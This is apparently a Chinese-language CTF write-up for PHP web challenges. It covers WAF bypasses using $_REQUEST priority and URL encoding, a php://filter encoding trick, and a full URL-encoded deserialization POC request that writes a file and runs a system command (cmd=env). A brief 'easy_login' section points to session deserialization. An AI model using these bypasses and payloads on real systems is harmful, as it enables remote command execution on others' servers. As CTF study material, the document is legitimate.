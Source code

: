 waf1 利用REQUEST中POST优先集高POST传给数字bypass

waf2 url编码绕过 `$_SERVER[‘QUERY_STRING’]只能匹配没有url编码过的数据`

php-filter 除杂
```php
<?php $b = 'system'; 
$a = iconv('utf-8', 'utf-16le', base64_encode($b)); 
echo quoted_printable_encode($a); 
//quoted_printable_encode用于填充空字节，因为utf-8转utf-16le会产生空字节，file_put_contents会对空字节报错 
//c=003=00l=00z=00d=00G=00V=00t=00
```

POC
```burp
GET 
?%73%68%6f%77[%73%68%6f%77.%73%68%6f%77=%43%3a%31%31%3a%22%41%72%72%61%79%4f%62%6a%65%63%74%22%3a%31%36%37%3a%7b%78%3a%69%3a%30%3b%4f%3a%33%3a%22%63%74%66%22%3a%32%3a%7b%73%3a%32%3a%22%68%31%22%3b%4f%3a%34%3a%22%73%68%6f%77%22%3a%30%3a%7b%7d%73%3a%32%3a%22%68%32%22%3b%61%3a%31%3a%7b%69%3a%30%3b%61%3a%33%3a%7b%69%3a%30%3b%73%3a%30%3a%22%22%3b%69%3a%31%3b%73%3a%30%3a%22%22%3b%69%3a%32%3b%4f%3a%31%30%3a%22%43%68%75%30%5f%77%72%69%74%65%22%3a%33%3a%7b%73%3a%34%3a%22%63%68%75%30%22%3b%4e%3b%73%3a%34%3a%22%63%68%75%31%22%3b%52%3a%31%30%3b%73%3a%33%3a%22%63%6d%64%22%3b%4e%3b%7d%7d%7d%7d%3b%6d%3a%61%3a%30%3a%7b%7d%7d&name=php://filter/convert.quoted-printable-decode/convert.iconv.utf-16.utf-8/convert.base64-decode/resource=ctfw&chu0=c=003=00l=00z=00d=00G=00V=00t=00&cmd=env
POST
show[show.show=1&name=1&chu0=1&cmd=1
```

## easy_login
代码量不多，基本就是反序列化的思路

唯一的反序列化位置是session反序列化

![](attachments/Pasted%20image%2020240218130920.png)

反序列化执行命令

![](attachments/Pasted%20image%2020240218133424.png)
